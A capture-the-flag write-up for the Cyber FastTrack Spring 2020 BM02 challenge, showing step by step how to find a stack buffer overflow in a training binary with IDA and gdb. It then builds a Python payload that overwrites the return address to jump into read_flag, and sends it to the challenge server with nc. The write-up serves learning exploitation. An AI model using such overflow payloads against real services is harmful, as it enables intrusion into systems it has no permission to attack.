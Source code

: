 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG\
![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG\
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.PNG\
![image info](BM02_3.PNG)
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.

BM02_4.PNG\
![image info](BM02_4.PNG)
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.


BM02_5.PNG\
![image info](BM02_5.PNG)
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`

BM02_6.PNG\
![image info](BM02_6.PNG)
* Enter one information for each of the First Name, Last Name, and Job Title.
* * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`

BM02_7.PNG\
![image info](BM02_7.PNG)
* Enter info frame to get the return address that stored at eip. In this case, the return address is 0x56557492. 

BM02_8.PNG\
	Display the current and the next 199 stack pointer.
	Enter x/200x $sp
	The addresses that are 0x00000000 are local variables that we need to fill in before changing the return address. So in a text file, we enter
	print("add_candidate")
	print('A'*20)
	and save it as a python file.
BM02_9.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are 25 0x00000000 remaining for us to fill out and then we have to overwrite the 0xdeadbeef.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are 3 adresses remaining to changes. Then, we changes the return address to 0x5655615d. Remember, we have to write the address in reverse byte order.
	We changes the contents of the python file to:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
BM02_10.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	Enter info frame to see if the return address changed to 0x5655615d.
BM02_11.PNG
	Use si to execute one instruction at a time to see if the program enters the read_flag(void) function.
	We see that the program enters the read_flag(void) function.
BM02_12.PNG
	Use si to execute one instruction at a time and we will see the flag eventually.
BM02_13.PNG
	In order to get the server to response to our request, we also need to print out the last name and the job title, so we edit the python file as below:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
	print("last name")
	print("job title")
	Send the bm02.py to the server and it would prints out the flag.
	python bm02.py | nc bm02.allyourbases.co 9003





	
